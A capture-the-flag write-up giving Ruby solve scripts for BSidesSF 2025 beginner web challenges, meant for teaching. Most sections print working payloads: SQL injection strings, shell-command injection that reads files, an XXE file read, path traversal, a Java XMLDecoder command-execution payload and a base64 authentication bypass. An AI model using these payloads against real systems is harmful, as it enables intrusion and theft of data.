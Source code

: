 ```yaml
---
title: 'BSidesSF 2025: Miscellaneous challenges'
author: ron
layout: post
categories:
- bsidessf-2025
- ctfs
permalink: "/2025/bsidessf-2025-miscellaneous-challenges"
date: '2025-04-27T15:59:15-07:00'
comments_id: '114456978710849514'

---
```


I wrote a wholllle pile of 101 web challenges this year, which are ultimately going to be adapted for a workshop I'm giving at NorthSec in Montreal next month.

I'm not going to spend a ton of time on them, I'll just give the solutions quickly.

As usual, you can find the code and complete solutions on our [GitHub repo](https://github.com/BSidesSF/ctf-2025-release)!

And, if these are particularly interesting to you, come see me in Montreal!

<!--more-->

## `hidden-reports` (sqli login)

Hidden-reports is classic SQL injection in a login form `' or '1'='1`:

```ruby
result = HTTParty.post(get_url(), body: { 'passphrase' => "test' or '1'='1" })
```

## `detector` (shell injection)

`detector` is shell command injection:

```ruby
result = HTTParty.get("#{ get_url() }/detect-dragon.php?ip=1.2.3.4; cat /app/dragon-detector-ai;")
```

## `detector-2` (shell injection)

`detector-2` is a slightly different flavour of shell command injection:

```ruby
result = HTTParty.get("#{ get_url() }/detect-dragon.php?ip=1.2.3.4$(cat /app/dragon-detector-ai)")
```

## `evidence` (XXE)

`evidence` is XML eXternal Entities - XXE:

```ruby
XXE = <<~XXE
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///flag.txt">
  ]>
  <dragons>
    <dragon>
      <name>Smaug</name>
      <proof>&xxe;</proof>
    </dragon>
  </dragons>
XXE

EXPLOIT_FILE = File.join(__dir__, 'payload.xml')
File.write(EXPLOIT_FILE, XXE)
result = HTTParty.post(
  get_url(),
  body: {
    dragon_file: File.open(EXPLOIT_FILE, 'r')
  },
  headers: {
    'Content-Type' => 'multipart/form-data'
  }
)
```

## `pathing` (path traversal)

`pathing` is directory traversal in the URL (if you're using `curl`, you'll need `--path-as-is`, and other tools and browsers get confused):

```ruby
PATH = "#{get_url()}/../../../../../../flag.txt"
puts "Requesting #{ PATH }..."
out = ::HTTParty.get(PATH)
```

## `sighting` (path traversal)

`sighting` is another flavour of directory traversal, this time in an argument:

```ruby
PATH = "#{get_url()}picture.php?file=../../../../../../flag.txt"
puts "Requesting #{ PATH }..."
out = ::HTTParty.get(PATH)
```

## `taxonomy` (search SQLi)

`taxonomy` is classic SQL injection in a `WHERE` string - essentially `' or 1=1)--`:

```ruby
result = HTTParty.get("#{ get_url() }/?search=Nano%27%20OR%201=1)%20--")
```

## `dating` (XMLDecoder)

`dating` is insecure `XMLDecoder` usage - you can basically copy/paste reverse shell code.

My solution is a bit complicated because I want to be able to do it without a reverse shell:

```ruby
TEMP = UUID.generate.to_s
COPY = <<~COPY
  <?xml version="1.0" encoding="UTF-8"?>
  <java version="1.8.0_102" class="java.beans.XMLDecoder">
   <object class="java.lang.Runtime" method="getRuntime">
        <void method="exec">
        <array class="java.lang.String" length="3">
            <void index="0">
                <string>/bin/bash</string>
            </void>
            <void index="1">
                <string>-c</string>
            </void>
            <void index="2">
                <string>cp /flag.txt /usr/local/tomcat/webapps/ROOT/#{ TEMP }.txt</string>
            </void>
        </array>
        </void>
   </object>
  </java>
COPY
DELETE = <<~DELETE
  <?xml version="1.0" encoding="UTF-8"?>
  <java version="1.8.0_102" class="java.beans.XMLDecoder">
   <object class="java.lang.Runtime" method="getRuntime">
        <void method="exec">
        <array class="java.lang.String" length="3">
            <void index="0">
                <string>/bin/bash</string>
            </void>
            <void index="1">
                <string>-c</string>
            </void>
            <void index="2">
                <string>rm -f /usr/local/tomcat/webapps/ROOT/#{ TEMP }.txt</string>
            </void>
        </array>
        </void>
   </object>
  </java>
DELETE
# Move the file
HTTParty.post("#{ get_url() }/ProfileServlet", body: COPY)
# Get the file
result = HTTParty.get("#{ get_url() }/#{ TEMP }.txt")
# Delete the file
HTTParty.post("#{ get_url() }/ProfileServlet", body: DELETE)
```

## `hoard` (shell injection)

`hoard` is another shell command injection issue, this time in a JSON payload:

```ruby
BODY = {
  'hoardType' => 'artifact',
  'gold' => '123',
  'gems' => '123',
  'artifacts' => "123';cat /flag.txt;echo '",
}.to_json
result = HTTParty.post("#{ get_url() }/backend.php", body: BODY)
```

## `extinction` (ambiguous base64)

And finally, `extinction` is a challenge based on ambiguous base64 - depending on the length of the string, the last bit or two can be changed without changing the value it decodes to (this is based on my poor attempt to write Suricata rules at work):

```ruby
result = HTTParty.post("#{ get_url() }/index.php?encoded_creds=#{ Base64.strict_encode64('admin:admin') }")
if result.include?('CTF') || !result.include?('AHA')
  puts "Something went wrong: the 'bad' request wasn't correctly handled!"
  exit(1)
end
result = HTTParty.post("#{ get_url() }/index.php?encoded_creds=YWRtaW46YWRtaW5=")
```
